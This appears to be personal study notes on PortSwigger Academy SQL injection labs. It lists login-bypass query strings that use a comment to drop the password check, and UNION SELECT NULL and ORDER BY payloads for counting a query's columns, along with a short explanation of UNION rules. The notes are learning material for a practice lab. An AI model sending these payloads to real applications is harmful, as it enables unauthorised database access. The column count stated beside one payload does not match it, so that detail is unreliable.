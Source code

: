 SELECT firstname FROM users where username=''' and password='admin'

SELECT firstname FROM users where username='administrator'--' and password='admin'

SELECT firstname FROM users where username='admin'
# UNION attack, determining the number of columns returned by the query
https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-determining-the-number-of-columns-required/sql-injection/union-attacks/lab-determine-number-of-columns

> [!NOTE]
> This lab is for determine columns

we can do it by Order by or by NULL value
### Used Payload
```
/filter?category=' UNION SELECT NULL,NULL,NULL,NULL--
```

this will return no error there are 3 rows

```
/filter?category=Gift' ORDER BY 3--
```

### Notes

SQLi - Product category filter

End Goal: determine the number of columns returned by the query. 

Background (Union):

table1      table2
a | b       c | d 
-----       -----
1 , 2       2 , 3
3 , 4       4 , 5

Query #1: select a, b from table1
1,2
3,4

Query #2: select a, b from table1 UNION select c,d from table2
1,2
3,4
2,3
4,5

Rule: 
- The number and the order of the columns must be the same in all queries
- The data types must be compatible

SQLi attack (way #1):

select ? from table1 UNION select NULL
-error -> incorrect number of columns
